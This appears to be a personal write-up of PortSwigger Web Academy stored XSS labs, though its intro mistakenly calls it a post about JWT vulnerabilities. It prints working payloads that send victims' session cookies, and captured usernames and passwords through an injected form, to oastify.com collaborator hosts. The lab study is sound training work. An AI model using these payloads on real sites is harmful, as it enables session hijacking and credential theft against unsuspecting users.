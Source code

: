```yaml
---
title: (Portswigger/WebAcademy) - Stored XSS
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-01-25 09:00:00 +0200
categories: [Web Application, Stored XSS]
tags: [Notes, Stored XSS, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the JWT Token Vulnerabilities.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/jwt) Labs, but i do intent do throw other labs and writeups here as well.

To learn more on the topic, please visit the article linked above at Portswigger's.

## TOC

# Lab: Stored XSS into HTML context with nothing encoded

> This lab contains a stored cross-site scripting vulnerability in the comment functionality.
> 
> To solve this lab, submit a comment that calls the alert function when the blog post is viewed.

This is the webpage that we get on after we spin the lab.

![picture 1](images/c89ad083d0dfbc6bf908dee03f3b85576fec9ebd6173fb6b404523c35c5d80e7.png)  

We can send a post.

![picture 2](images/b031e33dd7fe51dd43480a4dd071803536d0795eb5608944dd97f82f19c204aa.png)  

Alert triggers on `Comment` entry:

![picture 3](images/03597b44f2184b36720316eb36fc70a886f1dacd05813a8c4e9d50a793a13804.png)  

Source Code
```html
<section class="comment">
  <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar">                            
    <a id="author" href="http://&lt;script&gt;alert(3)&lt;/script&gt;.com">test&lt;script&gt;alert(2)&lt;/script&gt;</a> | 27 January 2023
  </p>
  <p><script>alert(1)</script></p>
  <p></p>
</section>
```

# Exploiting cross-site scripting to steal cookies
**Collaborator has to be used in order to solve the lab**
> This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Webpage looks like in the previous lab.

We can trigger XSS in the `Comment` section.

![picture 4](images/207ea1c0215ff613634222a0788608ef5d3b3036d263a45d838dff43c35dd32d.png)  

Cookie will be printed in the alert popup.

![picture 5](images/dfa0f7dced73cca96f7ccd9020d0535652a8daa0ca86b3394b8a8940aebbe788.png)  

As we now need to exfiltrate the token, we'll need to use payload that will send that token to Burps Collaborator.

```
<script>location='http://iyk9morvj5u0hqdrwttw8300frli98xx.oastify.com/c='+document.cookie;</script>
```

We should soon see an entry in our Collaborator.

![picture 7](images/ccf5b54528ffc0de04cfd6fe3b61394e68582f7596e839821a832c568a002ad3.png)  

We can now simply change `session` token with the one found in Collaborator.

![picture 6](images/d87e266a5bc8a745214dadedbafddec619288d01d508bc10afe3f07f026ca1ad.png)  

# Exploiting cross-site scripting to capture passwords
**Collaborator has to be used in order to solve the lab**

> This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

Lab looks exactly the same as the previous ones. We can send posts where XSS vulnerability resides.

To read the stored passwords, following payload will be used.

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length) fetch('http://2qtte8jfbpmk9a5bodlg0nsk7bd21vpk.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

![picture 8](images/1abcc075df1dc799630ce9a219c1cb6b366fccf029333c02d5f0adec91a0f95a.png)  

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length) fetch('http://2qtte8jfbpmk9a5bodlg0nsk7bd21vpk.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
